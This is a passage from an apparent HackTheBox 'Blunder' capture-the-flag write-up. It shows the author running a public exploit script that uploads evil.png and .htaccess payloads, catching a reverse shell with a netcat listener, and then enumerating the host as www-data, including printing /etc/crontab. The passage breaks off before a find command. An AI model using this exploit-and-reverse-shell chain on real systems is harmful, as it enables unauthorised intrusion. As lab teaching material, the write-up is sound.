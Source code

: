 Now, we can again try to run the script.

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $python3 48701.py 
cookie: pnrnpfrisepfdgf7vqatk16rs6
csrf_token: a89c392f2d98cf3cebda6f026bd69f4a29fbde41
Uploading payload: evil.png
Uploading payload: .htaccess
```

In the script, it is written that the payload uploaded can be accessed at `url + /bl-content/tmp/temp/evil.png`. But before visiting that page, we need to start a listener on port 4242 (In the script it is port 53 but I changed it to 4242).

```
┌─[tester@parrot-virtual]─[~/Desktop/GitHub/Writeups/HackTheBox/Easy/blunder]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [<your_ip>] from (UNKNOWN) [10.10.10.191] 57072
```

We can see that we are logged in as `www-data` using the command `whoami`. On exploring the directories, we find out that there are two users on the machine `hugo` and `shaun`. And `hugo`'s directory contains the `user.txt` file which is not accessible to us. Also, we can't see the output for `sudo -l`. The next thing we can look for is `/etc/crontab`.

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

But even her, we don't find anything useful. We can try to look for the files that we can access using the `find` command:

